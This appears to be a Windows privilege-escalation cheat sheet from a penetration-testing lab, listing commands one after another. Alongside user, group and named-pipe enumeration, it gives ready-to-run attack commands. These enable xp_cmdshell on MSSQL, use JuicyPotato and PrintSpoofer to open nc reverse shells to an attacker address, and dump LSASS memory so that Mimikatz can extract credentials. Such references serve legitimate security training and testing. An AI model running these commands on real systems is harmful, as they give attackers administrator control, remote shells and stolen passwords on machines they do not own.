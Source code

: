 > View current user group information

`net user`

> Get all system users

`net localgroup`

> Get all system groups

`net localgroup administrators`

> View details about a group

`net accounts`

> Get passsword policy

`netstat -ano`

> Display active network connections

`pipelist.exe /accepteula`

> List named pipes

`gci \\.\pipe\`

> List named pipes with PowerShell

`accesschk.exe /accepteula \\.\Pipe\lsass -v`

> Review permissions on a named pipe

`mssqlclient.py sql_dev@10.129.43.30 -windows-auth`

> Connect using mssqlclient.py

`enable_xp_cmdshell`

> Enable xp_cmdshell with mssqlclient.py

`xp_cmdshell whoami`

> Run OS commands with xp_cmdshell

`c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *`

> Escalate privileges with JuicyPotato

`c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"`

> Escalating privileges with PrintSpoofer

`procdump.exe -accepteula -ma lsass.exe lsass.dmp`

> Take memory dump with ProcDump

`sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords`

> Use MimiKatz to extract credentials from LSASS memory dump

`dir /q C:\backups\wwwroot\web.config`
